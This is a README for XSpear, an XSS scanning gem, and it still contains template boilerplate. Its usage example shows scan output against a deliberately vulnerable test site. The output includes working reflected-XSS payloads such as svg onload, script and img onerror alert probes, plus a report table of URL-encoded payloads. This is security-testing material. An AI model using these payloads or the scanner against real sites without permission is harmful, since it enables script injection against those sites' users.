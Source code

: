 # XSpear

Welcome to your new gem! In this directory, you'll find the files you need to be able to package up your Ruby library into a gem. Put your Ruby code in the file `lib/XSpear`. To experiment with that code, run `bin/console` for an interactive prompt.

TODO: Delete this and the text above, and describe your gem

## Installation

Add this line to your application's Gemfile:

```ruby
gem 'XSpear'
```

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install XSpear

## Usage

```
$ ruby -Ilib exe/XSpear -u "http://testphp.vulnweb.com/search.php?test=query" -d "searchFor=yy"
[*] creating a test query.
[*] test query generation is complete. [50 query]
[*] starting test and analysis. [10 threads]
[-] [00:37:28] not reflected XsPeaR>
[-] [00:37:28] not reflected <XsPeaR
[I] [00:37:28] reflected <XsPeaR[param: searchFor][not filtered <]
[-] [00:37:28] not reflected XsPeaR'
[I] [00:37:28] reflected XsPeaR>[param: searchFor][not filtered >]
[I] [00:37:28] reflected rEfe6[param: searchFor][reflected parameter]
[-] [00:37:28] not reflected rEfe6
[-] [00:37:28] not reflected XsPeaR"
[I] [00:37:28] reflected XsPeaR"[param: searchFor][not filtered "]
[I] [00:37:28] reflected XsPeaR'[param: searchFor][not filtered ']
[I] [00:37:29] reflected XsPeaR|[param: searchFor][not filtered |]
[-] [00:37:29] not reflected XsPeaR|
[-] [00:37:29] not reflected XsPeaR)
[-] [00:37:29] not reflected XsPeaR;
[I] [00:37:29] reflected XsPeaR;[param: searchFor][not filtered ;]
[I] [00:37:29] reflected XsPeaR([param: searchFor][not filtered (]
[I] [00:37:29] reflected XsPeaR)[param: searchFor][not filtered )]
[-] [00:37:29] not reflected XsPeaR(
[I] [00:37:29] reflected XsPeaR`[param: searchFor][not filtered `]
[-] [00:37:29] not reflected XsPeaR`
[-] [00:37:30] not reflected XsPeaR:
[I] [00:37:30] reflected XsPeaR[[param: searchFor][not filtered []
[I] [00:37:30] reflected XsPeaR{[param: searchFor][not filtered {]
[I] [00:37:30] reflected XsPeaR}[param: searchFor][not filtered }]
[I] [00:37:30] reflected XsPeaR][param: searchFor][not filtered ]]
[-] [00:37:30] not reflected XsPeaR{
[I] [00:37:30] reflected XsPeaR:[param: searchFor][not filtered :]
[-] [00:37:30] not reflected XsPeaR]
[-] [00:37:30] not reflected XsPeaR}
[-] [00:37:30] not reflected XsPeaR[
[I] [00:37:30] reflected XsPeaR.[param: searchFor][not filtered .]
[-] [00:37:30] not reflected XsPeaR=
[-] [00:37:30] not reflected XsPeaR,
[I] [00:37:30] reflected XsPeaR,[param: searchFor][not filtered ,]
[-] [00:37:30] not reflected XsPeaR-
[I] [00:37:30] reflected XsPeaR-[param: searchFor][not filtered -]
[-] [00:37:30] not reflected XsPeaR+
[I] [00:37:30] reflected XsPeaR=[param: searchFor][not filtered =]
[I] [00:37:30] reflected XsPeaR+[param: searchFor][not filtered +]
[-] [00:37:30] not reflected XsPeaR.
[-] [00:37:31] not reflected <svg/onload=alert(45)>
[H] [00:37:31] reflected <svg/onload=alert(45)>[param: searchFor][reflected XSS Code]
[I] [00:37:31] reflected XsPeaR$[param: searchFor][not filtered $]
[H] [00:37:31] reflected <script>alert(45)</script>[param: searchFor][reflected XSS Code]
[-] [00:37:31] not reflected <script>alert(45)</script>
[H] [00:37:31] reflected <img/src onerror=alert(45)>[param: searchFor][reflected XSS Code]
[-] [00:37:31] not reflected <img/src onerror=alert(45)>
[-] [00:37:31] not reflected XsPeaR$
[*] finish scan. the report is being generated..
+----+------+-------------+------------------------------------------------------------+---------------------+
|                                               XSpear report                                                |
|                              http://testphp.vulnweb.com/search.php?test=query                              |
+----+------+-------------+------------------------------------------------------------+---------------------+
| NO | TYPE | ISSUE       | PAYLOAD                                                    | DESCRIPTION         |
+----+------+-------------+------------------------------------------------------------+---------------------+
| 0  | INFO | FILERD RULE | searchFor=yy%3CXsPeaR                                      | not filtered <      |
| 1  | INFO | FILERD RULE | searchFor=yyXsPeaR%3E                                      | not filtered >      |
| 2  | INFO | REFLECTED   | searchFor=yyrEfe6                                          | reflected parameter |
| 3  | INFO | FILERD RULE | searchFor=yyXsPeaR%22                                      | not filtered "      |
| 4  | INFO | FILERD RULE | searchFor=yyXsPeaR%27                                      | not filtered '      |
| 5  | INFO | FILERD RULE | searchFor=yyXsPeaR%7C                                      | not filtered |      |
| 6  | INFO | FILERD RULE | searchFor=yyXsPeaR%3B                                      | not filtered ;      |
| 7  | INFO | FILERD RULE | searchFor=yyXsPeaR%28                                      | not filtered (      |
| 8  | INFO | FILERD RULE | searchFor=yyXsPeaR%29                                      | not filtered )      |
| 9  | INFO | FILERD RULE | searchFor=yyXsPeaR%60                                      | not filtered `      |
| 10 | INFO | FILERD RULE | searchFor=yyXsPeaR%5B                                      | not filtered [      |
| 11 | INFO | FILERD RULE | searchFor=yyXsPeaR%7B                                      | not filtered {      |
| 12 | INFO | FILERD RULE | searchFor=yyXsPeaR%7D                                      | not filtered }      |
| 13 | INFO | FILERD RULE | searchFor=yyXsPeaR%5D                                      | not filtered ]      |
| 14 | INFO | FILERD RULE | searchFor=yyXsPeaR%3A                                      | not filtered :      |
| 15 | INFO | FILERD RULE | searchFor=yyXsPeaR.                                        | not filtered .      |
| 16 | INFO | FILERD RULE | searchFor=yyXsPeaR%2C                                      | not filtered ,      |
| 17 | INFO | FILERD RULE | searchFor=yyXsPeaR-                                        | not filtered -      |
| 18 | INFO | FILERD RULE | searchFor=yyXsPeaR%3D                                      | not filtered =      |
| 19 | INFO | FILERD RULE | searchFor=yyXsPeaR%2B                                      | not filtered +      |
| 20 | HIGH | XSS         | searchFor=yy%3Csvg%2Fonload%3Dalert%2845%29%3E             | reflected XSS Code  |
| 21 | INFO | FILERD RULE | searchFor=yyXsPeaR%24                                      | not filtered $      |
| 22 | HIGH | XSS         | searchFor=yy%22%3E%3Cscript%3Ealert%2845%29%3C%2Fscript%3E | reflected XSS Code  |
| 23 | HIGH | XSS         | searchFor=yy%3Cimg%2Fsrc+onerror%3Dalert%2845%29%3E        | reflected XSS Code  |
+----+------+-------------+------------------------------------------------------------+---------------------+

```

## Development

After checking out the repo, run `bin/setup` to install dependencies. Then, run `rake spec` to run the tests. You can also run `bin/console` for an interactive prompt that will allow you to experiment.

To install this gem onto your local machine, run `bundle exec rake install`. To release a new version, update the version number in `version.rb`, and then run `bundle exec rake release`, which will create a git tag for the version, push git commits and tags, and push the `.gem` file to [rubygems.org](https://rubygems.org).

## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/[USERNAME]/XSpear. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [Contributor Covenant](http://contributor-covenant.org) code of conduct.

## License

The gem is available as open source under the terms of the [MIT License](https://opensource.org/licenses/MIT).

## Code of Conduct

Everyone interacting in the XSpear project’s codebases, issue trackers, chat rooms and mailing lists is expected to follow the [code of conduct](https://github.com/[USERNAME]/XSpear/blob/master/CODE_OF_CONDUCT.md).
# XSpear
